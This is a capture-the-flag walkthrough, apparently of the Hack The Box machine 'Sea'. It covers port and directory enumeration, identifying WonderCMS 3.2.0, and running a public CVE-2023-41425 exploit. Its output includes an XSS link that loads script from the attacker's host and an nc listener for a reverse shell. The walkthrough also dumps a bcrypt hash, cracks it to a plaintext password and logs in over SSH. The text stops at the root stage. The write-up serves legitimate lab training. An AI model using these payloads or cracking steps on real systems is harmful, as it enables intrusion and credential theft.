










# Enumeration
```bash
┌──(kareem㉿Kali)-[~/sea]
└─$ nmap -sVC 10.10.11.28 
Starting Nmap 7.95 ( https://nmap.org ) at 2025-06-17 05:23 EEST
Nmap scan report for 10.10.11.28
Host is up (0.16s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 e3:54:e0:72:20:3c:01:42:93:d1:66:9d:90:0c:ab:e8 (RSA)
|   256 f3:24:4b:08:aa:51:9d:56:15:3d:67:56:74:7c:20:38 (ECDSA)
|_  256 30:b1:05:c6:41:50:ff:22:a3:7f:41:06:0e:67:fd:50 (ED25519)
80/tcp open  http    Apache httpd 2.4.41
Service Info: Host: sea.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 108.73 seconds
```
Okay now we see only ssh and http so lets try to access the website from the browser \
We got this cool looking site 

if we checked with wappalyzer we will find it was wrote using PHP
 \
We also found contact.php page 

Let's try to dir brute force using gobuster
```bash
┌──(kareem㉿Kali)-[~/sea]
└─$ gobuster dir -u http://sea.htb/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x txt,asp,aspx,html
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://sea.htb/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              asp,aspx,html,txt
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.html                (Status: 403) [Size: 199]
/home                 (Status: 200) [Size: 3650]
/0                    (Status: 200) [Size: 3650]
/themes               (Status: 301) [Size: 230] [--> http://sea.htb/themes/]
/data                 (Status: 301) [Size: 228] [--> http://sea.htb/data/]
/plugins              (Status: 301) [Size: 231] [--> http://sea.htb/plugins/]
/messages             (Status: 301) [Size: 232] [--> http://sea.htb/messages/]
/404                  (Status: 200) [Size: 3341]
```
After checking these pages all of them are forbidden and nothing useful :

okay let's try to brute force on themes dir 
```bash
┌──(kareem㉿Kali)-[~/sea]
└─$ gobuster dir -u http://sea.htb/themes/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x txt,asp,aspx,html
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://sea.htb/themes/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              aspx,html,txt,asp
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.html                (Status: 403) [Size: 199]
/home                 (Status: 200) [Size: 3650]
/404                  (Status: 200) [Size: 3341]
/%20                  (Status: 403) [Size: 199]
/%20.asp              (Status: 403) [Size: 199]
/%20.aspx             (Status: 403) [Size: 199]
/%20.html             (Status: 403) [Size: 199]
/%20.txt              (Status: 403) [Size: 199]
/bike                 (Status: 301) [Size: 235] [--> http://sea.htb/themes/bike/]
```
and here we found /bike/ but after checking it, it was also forbidden so lets brute for this path again /bike/ but let's use different tool this time like `feroxbuster` since i just downloaded it and new to it xD
```bash
┌──(kareem㉿Kali)-[~/sea]
└─$ feroxbuster --url http://sea.htb/themes/bike/
                                                                                                                                           
 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.11.0
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://sea.htb/themes/bike/
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
 👌  Status Codes          │ All Status Codes!
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.11.0
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 🏁  HTTP methods          │ [GET]
 🔃  Recursion Depth       │ 4
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
404      GET       84l      209w     3341c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
403      GET        7l       20w      199c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
301      GET        7l       20w      239c http://sea.htb/themes/bike/img => http://sea.htb/themes/bike/img/
301      GET        7l       20w      239c http://sea.htb/themes/bike/css => http://sea.htb/themes/bike/css/
200      GET        1l        1w        6c http://sea.htb/themes/bike/version
200      GET       21l      168w     1067c http://sea.htb/themes/bike/LICENSE
200      GET        1l        9w       66c http://sea.htb/themes/bike/summary
[####################] - 4m     90010/90010   0s      found:5       errors:803    
[####################] - 4m     30000/30000   129/s   http://sea.htb/themes/bike/ 
[####################] - 4m     30000/30000   129/s   http://sea.htb/themes/bike/img/ 
[####################] - 4m     30000/30000   130/s   http://sea.htb/themes/bike/css/ 
```
oh we got `/version`,`/summary`,`/license`and `css/`, Let's check them all

Lets google really quickly what is 
`turboblack`

Okay the site is running cms called `wondercms`
# Search for public vulnerabilities
Now We can do something like this googling on the cms name 

Keep in mind the version we got is `3.2.0`
Then we found this script 

# Exploition
Lets git clone it and use it 
```bash
┌──(kareem㉿Kali)-[~/sea/CVE-2023-41425-wonderCMS_RCE]
└─$ python CVE-2023-41425.py -rhost http://sea.htb/loginURL -lhost 10.10.14.18 -lport 4444 -sport 8000
[+] Set up a nc listener: nc -lnvp 4444
[+] Send the xss URL to the victim: 
http://sea.htb/loginURL/index.php?page=loginURL?"></form><script+src="http://10.10.14.18:8000/xss.js"></script><form+action="
[+] Serving at http://10.10.14.18:8000
```
lets send this link the contact form we saw early on at `contact.php`

then we got this 

which is mean we got RCE lets mess with the shell we got 
# Getting-User

okay we can read the flag let's try to gather some other informations, Lets check the website files 
```json
www-data@sea:/var/www/sea/data$ cat database.js
cat database.js
{
    "config": {
        "siteTitle": "Sea",
        "theme": "bike",
        "defaultPage": "home",
        "login": "loginURL",
        "forceLogout": false,
        "forceHttps": false,
        "saveChangesPopup": false,
        "password": "$2y$10$iOrk210RQSAzNCx6Vyq2X.aJ\/D.GuE4jRIikYiWrD3TM\/PjDnXm4q",
        "lastLogins": {
            "2025\/06\/17 03:19:58": "127.0.0.1",
            "2024\/07\/31 15:17:10": "127.0.0.1",
            "2024\/07\/31 15:15:10": "127.0.0.1",
            "2024\/07\/31 15:14:10": "127.0.0.1"
        },
        "lastModulesSync": "2025\/06\/17",
        "customModules": {
            "themes": {},
            "plugins": {}
        },
        "menuItems": {
            "0": {
                "name": "Home",
                "slug": "home",
                "visibility": "show",
                "subpages": {}
            },
            "1": {
                "name": "How to participate",
                "slug": "how-to-participate",
                "visibility": "show",
                "subpages": {}
            }
```
we got this password :
`$2y$10$iOrk210RQSAzNCx6Vyq2X.aJ\/D.GuE4jRIikYiWrD3TM\/PjDnXm4q`
this is bcrypt hash lets try to break it using hashcat

```bash
$2y$10$iOrk210RQSAzNCx6Vyq2X.aJ/D.GuE4jRIikYiWrD3TM/PjDnXm4q:mychemicalromance
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 3200 (bcrypt $2*$, Blowfish (Unix))
Hash.Target......: $2y$10$iOrk210RQSAzNCx6Vyq2X.aJ/D.GuE4jRIikYiWrD3TM...DnXm4q
Time.Started.....: Tue Jun 17 06:34:26 2025 (20 secs)
Time.Estimated...: Tue Jun 17 06:34:46 2025 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:      171 H/s (5.89ms) @ Accel:12 Loops:8 Thr:1 Vec:1
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 3168/14344385 (0.02%)
Rejected.........: 0/3168 (0.00%)
Restore.Point....: 3024/14344385 (0.02%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:1016-1024
Candidate.Engine.: Device Generator
Candidates.#1....: iamcool -> heaven1
Hardware.Mon.#1..: Util: 80%

Started: Tue Jun 17 06:34:21 2025
Stopped: Tue Jun 17 06:34:47 2025
```
and we break it now we need to find a user who is using this password to login with his creds
Let's try to login using `geo` as username and try to login using `amay`
```bash
┌──(kareem㉿Kali)-[~/sea/CVE-2023-41425-wonderCMS_RCE]
└─$ ssh amay@sea.htb      
The authenticity of host 'sea.htb (10.10.11.28)' can't be established.
ED25519 key fingerprint is SHA256:xC5wFVdcixOCmr5pOw8Tm4AajGSMT3j5Q4wL6/ZQg7A.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'sea.htb' (ED25519) to the list of known hosts.
amay@sea.htb's password: 
Last login: Mon Aug  5 07:16:49 2024 from 10.10.14.40
```
we are in babyyy now i think we got the user flag let's try to get root
# root


okay let's check if there is any open ports or anything interesting in the internal network by checking `netstat` and `ss` 
then we found port 8080 running on the local host so we did port forwarding using ssh command `you can check that on my diaries` then we open it from the browser 


